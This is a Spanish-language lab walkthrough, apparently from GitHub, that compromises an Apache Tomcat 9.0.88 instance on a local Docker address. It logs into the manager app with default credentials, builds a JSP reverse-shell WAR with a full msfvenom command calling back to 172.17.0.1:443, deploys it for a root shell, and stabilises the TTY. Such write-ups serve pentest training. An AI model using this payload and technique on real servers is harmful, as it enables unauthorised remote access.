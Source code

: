 
![image](https://github.com/user-attachments/assets/d0eee424-55c4-47af-8a46-cb9500efbb77)

nmap: 8080

---
en la pagina: 172.17.0.2:8080 hay una  versión del de tomcat: # Apache Tomcat/9.0.88
como exploit a esa versión no encontré mucho, pero en la pagina hay un "manager apps"

![image](https://github.com/user-attachments/assets/8489fc06-5080-43b6-803b-d0aaef574de0)


en: https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/tomcat
buscamos las credenciales por default para poder entrar al "manager app"
intentamos con las credenciales

![image](https://github.com/user-attachments/assets/6f3bfbf0-bb14-48c1-bb7a-71101acce2f4)

> las credenciales: tomcat/s3cr3t

entramos al "manager app" con esas credenciales

encontramos la parte de WAR file to deploy, donde se suben archivos .war

![image](https://github.com/user-attachments/assets/38e15592-832a-4c5f-996e-0bcdcf2e1a19)

para poder tener una conexión RCE utilizamos: msfvenom -p java/jsp_shell_reverse_tcp LHOST=172.17.0.1 LPORT=443 -f war -o revshell.war

lo lanzamos y nos crea un:   revshell.war

![image](https://github.com/user-attachments/assets/973132b0-0212-4472-9b61-d4f0c763c3eb)


lo subimos en archivos "WAR" y luego lo cargamos

al subirlo aparece aquí: llamado /revshell

![image](https://github.com/user-attachments/assets/172fadd7-9f49-4382-8780-97003c4aff0f)


>colocamos el terminal en escucha y presionamos el archivo y estamos dentro ya como root!

![image](https://github.com/user-attachments/assets/bffb11dd-3dd1-4df3-844b-205beb224f66)


hacemos un "stty"

       - script /dev/null -c bash
       - stty raw -echo; fg
       - reset xterm
       - export SHELL=bash && export TERM=xterm
       - stty rows numero colums numero 

y quedara así:

![image](https://github.com/user-attachments/assets/fbdfd381-a7b5-4a87-9cef-48ba1f5e5e33)

